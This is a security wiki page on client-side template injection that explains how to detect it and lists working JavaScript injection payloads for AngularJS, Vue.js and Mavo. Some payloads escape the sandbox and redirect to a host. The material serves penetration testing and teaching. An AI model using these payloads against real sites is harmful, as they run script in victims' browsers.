 # Client Side Template Injection \(CSTI\)

## Summary

It is like a [**Server Side Template Injection**](ssti-server-side-template-injection.md) but in the **client**. The **SSTI** can allow you the **execute code** on the remote server, the **CSTI** could allow you to **execute arbitrary JavaScript** code in the victim.

The way to **test** for this vulnerability is very **similar** as in the case of **SSTI**, the interpreter is going to expect something to execute **between doubles keys** and will execute it. For example using something like: `{{ 7-7 }}` if the server is **vulnerable** you will see a `0` and if not you will see the original: `{{ 7-7 }}`

### AngularJS

AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the **`ng-app`** attribute \(also known as an AngularJS directive\). When a directive is added to the HTML code, **you can execute JavaScript expressions within double curly braces**.  
For example, if your **input** is being **reflected** inside the **body** of the HTML and the body is defined with `ng-app`: **`<body ng-app>`**

You can **execute arbitrary JavaScript** code using curly braces **adding** to the **body**:

```javascript
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}

<!-- Google Research - AngularJS -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```

You can find a very **basic online example** of the vulnerability in **AngularJS** in [http://jsfiddle.net/2zs2yv7o/](http://jsfiddle.net/2zs2yv7o/)

### VueJS

You can find a **vulnerable vue.js** implementation in [https://vue-client-side-template-injection-example.azu.now.sh/](https://vue-client-side-template-injection-example.azu.now.sh/)  
Working payload: [`https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor(%27alert(%22foo%22)%27)()%7D%`](https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor%28%27alert%28%22foo%22%29%27%29%28%29%7D%7D)

And the **source code** of the vulnerable example here: [https://github.com/azu/vue-client-side-template-injection-example](https://github.com/azu/vue-client-side-template-injection-example)

```markup
<!-- Google Research - Vue.js-->
"><div v-html="''.constructor.constructor('d=document;d.location.hash.match(\'x1\') ? `` : d.location=`//localhost/mH`')()"> aaa</div>
```

### Mavo

Payload:

```text
[self.alert(1)]
```


